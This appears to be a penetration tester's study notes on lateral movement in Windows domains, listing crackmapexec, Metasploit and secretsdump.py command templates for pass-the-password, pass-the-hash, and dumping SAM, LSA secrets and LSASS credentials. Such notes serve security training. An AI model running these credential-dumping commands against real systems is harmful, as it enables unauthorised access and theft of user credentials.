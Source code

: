 - Lateral Movement with a `password` or `hash`
- ![[Pasted image 20250329152310.png]]
- After gaining one password/hash, we can **==try the credentials on every device==** and see if we can login on that.

# Crackmapexec
---
- **Pass the Password**
---
- Using `crackmapexec`:
	- `crackmapexec smb <ip/CIDR> -u <user> -d <domain> -p <pass>`
- To grab local hashes:
	- Using `metasploit`:
		- `use exploit/smb/psexec`
		- `hashdump`
	- Using `secretsdump.py`
		- `secretsdump.py <domain>/<username>:<password>@<ip>`
		  
- **Pass the Hash**
- --
- `crackmapexec smb <ip/CIDR> -u <user> -H <hash> --local-auth`

- Dump the SAM: 
---
- `crackmapexec smb <ip/CIDR> -u <user> -H <hash> --local-auth --sam`

- Grab the share:
---
-  `crackmapexec smb <ip/CIDR> -u <user> -H <hash> --local-auth --shares

- Dumping LSA (Local Security Authority)
- ---
-  `crackmapexec smb <ip/CIDR> -u <user> -H <hash> --local-auth --lsa

- Bultin modules
- ---
- ![[Pasted image 20250329153420.png]]
-  `crackmapexec smb <ip/CIDR> -u <user> -H <hash> --local-auth -M lssasy` => Dumps lsass with lsassy
	- ==LSASS is responsible for **forcing security policy** and **stores credentials of logged in users.**==

- `CMEDB`